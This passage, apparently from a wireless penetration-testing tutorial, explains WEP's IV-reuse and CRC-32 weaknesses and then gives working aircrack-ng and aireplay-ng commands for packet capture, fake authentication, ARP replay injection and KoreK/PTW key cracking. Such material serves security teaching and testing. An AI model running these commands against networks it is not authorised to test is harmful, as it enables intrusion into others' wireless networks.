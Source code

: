 #### 2. IV Collision and Reuse

```bash
# Problem: 24-bit IV space
- 2^24 = 16,777,216 possible IVs
- Birthday paradox: collisions after ~5,000 packets
- IV reuse reveals keystream
- Linear IV increment predictable
```

#### 3. CRC-32 Integrity Weakness

```bash
# Linear property of CRC-32
- Predictable modification without detection
- Bit-flipping attacks possible
- No authentication of packet origin
```

### WEP Exploitation Techniques

#### Active Injection Attacks

```bash
# ARP replay attack
sudo airodump-ng -c 6 --bssid [AP_MAC] -w wep_capture wlan0mon

# Fake authentication
sudo aireplay-ng -1 0 -a [AP_MAC] wlan0mon

# ARP packet replay
sudo aireplay-ng -3 -b [AP_MAC] wlan0mon

# Monitor packet generation
# Target: 20,000+ packets for reliable crack
```

#### Korek Attack Implementation

```bash
# Advanced statistical attack
aircrack-ng -K wep_capture-01.cap  # Use Korek method

# PTW (Pyshkin-Tews-Weinmann) attack
aircrack-ng -P wep_capture-01.cap  # More efficient
```

#### Caffe Latte Attack

```bash
# Client-side attack when AP is down
# Requires captured packet from target client
# Replays packet to force client to generate traffic
```
